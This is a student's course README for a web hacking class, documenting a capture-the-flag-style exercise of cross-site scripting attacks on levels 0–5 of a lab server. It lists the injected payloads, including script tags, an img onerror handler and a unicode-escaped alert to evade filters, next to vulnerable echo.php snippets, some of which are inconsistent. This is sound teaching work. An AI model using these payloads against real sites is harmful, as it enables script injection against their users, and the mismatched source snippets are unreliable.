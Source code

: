 # WAPH-jaindy Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Divyani Jain

**Email**: jaindy@mail.uc.edu

**Short-bio**: Work experience of more than 6 years in IT Industry. Specialize in Analysis, Development, Design, Testing, Debugging and Implementation of Web Applications. 

![Divyani Headshot!](/Images/Divyani_Jain.jpg)

## Repository Information

Respository's URL: [https://github.com/jaindy/waph-jaindy.git](https://github.com/jaindy/waph-jaindy.git)

This is a private repository for divyani Jain to store all code from the course. The organization of this repository is as follows.

## Hackathon 1 - Cross-site Scripting Attacks and Defenses

Task 1. Perform cross site scripting attacks on below Url and display my name in alert.
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level[0-6]/echo.php​

## Level 0: Hacked level0 by injected javascript script tag in input field. 
Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>

![Level 0!](/Images/Level0.png)

Source code of the echo.php web application:

<?php
echo $_REQUEST['input'];
?>

## Level 1: hacked level1 by injected javascript script tag in url. 
Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>

![Level 1!](/Images/Level1.png)

Source code of the echo.php web application:

<?php
echo $_REQUEST['input'];
?>

## Level 2: hacked the level2 by changing the URL path in action attribute of the Form tag in HTML and Send Ajax post request.
Injected Code:
<form action="http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php" method="POST" name="echo_post">
Your Input: <input name="input" onkeypress="console.log('You have presses a key')">
<input type="Submit" value="Submit">
</form>

![Injected code Level 2!](/Images/Level2.png)
![Level 2!](/Images/Level2.png)

Source code of the echo.php web application:

<?php
echo $_REQUEST['input'];
?>

## Level 3: Hacked the level3 by providing alert in onerror event in image tag.
Injected Code: <img src="" onerror="alert('level 3 hack by Divyani Jain')">

![Level 3!](/Images/Level3.png)

Source code of the echo.php web application:
<?php
echo strip_tags("<script>alert('level 3 hack by Divyani Jain')</script>","<img>");
?>

## Level 4:Hacked the level4 by providing alert in onerror event in image tag.
Injected Code: <img src="" onerror="alert('level 3 hack by Divyani Jain')">
![Level 4!](/Images/Level4.png)

Source code of the echo.php web application:
<?php
echo strip_tags("<script>alert('level 4 hack by Divyani Jain')</script>","<img>");
?>

## Level 5: Hacked the level5 by providing window alert in onload event in body tag.
Injected Code: <body onload="window['al\u0065rt']('level 5 hack by divyani jain')">

![Level 5!](/Images/Level5.png)


Source code of the echo.php web application:
<?php
echo strip_tags("<script>alert('level 5 hack by Divyani Jain')</script>","<img>");
?>

## Level 6:
Injected Code:
Source code of the echo.php web application:

